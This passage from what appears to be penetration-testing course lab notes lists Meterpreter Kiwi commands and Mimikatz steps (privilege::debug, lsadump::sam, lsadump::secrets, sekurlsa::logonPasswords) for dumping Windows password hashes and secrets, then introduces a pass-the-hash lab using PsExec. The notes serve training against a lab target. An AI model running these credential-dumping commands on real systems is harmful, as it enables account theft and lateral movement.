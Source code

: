 ```bash
        kerberos_ticket_list   List all kerberos tickets (unparsed)
        kerberos_ticket_purge  Purge any in-use kerberos tickets
        kerberos_ticket_use    Use a kerberos ticket
        kiwi_cmd               Execute an arbitary mimikatz command (unparsed)
        lsa_dump_sam           Dump LSA SAM (unparsed)
        lsa_dump_secrets       Dump LSA secrets (unparsed)
        password_change        Change the password/hash of a user
        wifi_list              List wifi profiles/creds for the current user
        wifi_list_shared       List shared wifi profiles/creds (requires SYSTEM)
```

```bash
creds_all
lsa_dump_sam
lsa_dump_secrets
```

### Hash Dumping - Mimikatz.exe <a href="#hash-dumping-mimikatz.exe" id="hash-dumping-mimikatz.exe"></a>

```bash
cd C:\\
mkdir Temp
cd Temp
upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
shell
```

* Run `mimikatz.exe`

```sh
mimikatz.exe
privilege::debug
	Privilege '20' OK
# I have the required privileges for hash extraction from memory
```

* Dump the cache of the `lsass` process

```sh
lsadump::sam
lsadump::secrets
sekurlsa::logonPasswords
```

***

## &#x20;Lab 5 - Pass-the-Hash with PsExec <a href="#lab-5-pass-the-hash-with-psexec" id="lab-5-pass-the-hash-with-psexec"></a>

> 🔬 [Windows: Meterpreter: Kiwi Extension](https://attackdefense.com/challengedetails?cid=2340) - same lab as Lab 4
>
> * Target IP: `10.0.20.226`
> * Check the [🔬Lab 3 - Pass-the-hash lab here](https://blog.syselement.com/ine/courses/ejpt/hostnetwork-penetration-testing/1-system-attack/windows-attacks/creds-dump#lab-3-pass-the-hash) for full description
> * Metasploit **PsExec** module
